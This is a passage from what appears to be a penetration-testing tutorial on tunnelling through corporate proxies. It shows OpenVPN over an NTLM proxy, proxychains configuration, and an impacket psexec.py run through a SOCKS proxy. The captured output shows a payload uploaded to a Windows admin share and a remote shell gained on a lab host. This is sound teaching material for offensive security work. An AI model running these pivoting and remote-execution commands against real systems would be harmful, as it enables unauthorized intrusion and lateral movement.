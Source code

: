 ```
Now, given you have ssh running on the remote host on port 443, you can launch ssh client (openssh/putty) and connect to local port 2222 to get access to the external machine.


## OpenVpn over HTTP proxy

[OpenVpn](https://openvpn.net/index.php/open-source/documentation/howto.html) is huge so its configuration from the ground up is out of scope of this post. Just a quick mention - it also supports tunneling tcp connections over NTLM proxies. Add this line to your config file:

```http-proxy <proxy_ip> 8080 <file_with_creds> ntlm```

Credential file should contain username and password on separate lines. And, yes, you’ll need root.


# Making use of SOCKS with proxychains

If your program doesn’t use raw sockets (nmap syn-scan, for example) then most probably you can use ```proxychains``` to force your program though the socks proxy. Edit proxy server in /etc/proxychains.conf:

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 3128
```

All ready. Just prepend ```proxychains``` to you favorite pwn tool:

```proxychains program_name```

Using impacket’s psexec.py with proxychains:

```proxychains psexec.py administrator@172.16.46.160 ipconfig
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

Password:
|S-chain|-<>-127.0.0.1:3128-<><>-172.16.46.160:445-<><>-OK
[*] Requesting shares on 172.16.46.160.....
[-] share 'ADMIN$' is not writable.
[*] Found writable share C$
[*] Uploading file QkTkwjIx.exe
[*] Opening SVCManager on 172.16.46.160.....
[*] Creating service naYo on 172.16.46.160.....
[*] Starting service naYo.....
|S-chain|-<>-127.0.0.1:3128-<><>-172.16.46.160:445-<><>-OK
|S-chain|-<>-127.0.0.1:3128-<><>-172.16.46.160:445-<><>-OK
[!] Press help for extra shell commands
|S-chain|-<>-127.0.0.1:3128-<><>-172.16.46.160:445-<><>-OK

Windows IP Configuration

Ethernet adapter Local Area Connection 2:

    Connection-specific DNS Suffix . : localdomain
    Link-local IPv6 Address  . . . . : fe12::a0b3:3f90:1234:8130%15
```